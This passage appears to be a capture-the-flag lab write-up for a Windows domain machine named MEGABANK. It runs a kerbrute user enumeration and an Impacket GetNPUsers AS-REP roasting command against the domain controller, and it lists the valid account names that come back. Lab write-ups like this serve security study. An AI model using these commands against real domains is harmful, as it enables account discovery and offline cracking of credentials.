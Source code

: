 
Valid Users
```
kerbrute userenum -d MEGABANK --dc 10.10.10.172 valid_user.txt -t 100
```
![[Pasted image 20240503124645.png]]

```
svc-bexec@MEGABANK
svc-ata@MEGABANK
roleary@MEGABANK
SABatchJobs@MEGABANK
svc-netapp@MEGABANK
smorgan@MEGABANK
administrator@MEGABANK
```


```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```
![[Pasted image 20240503124918.png]]

```
smorgan
Administrator
krbtgt
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
Guest
Administrator
AAD_987d7f2f57d2
mhope
dgalanos
Administrator
roleary
```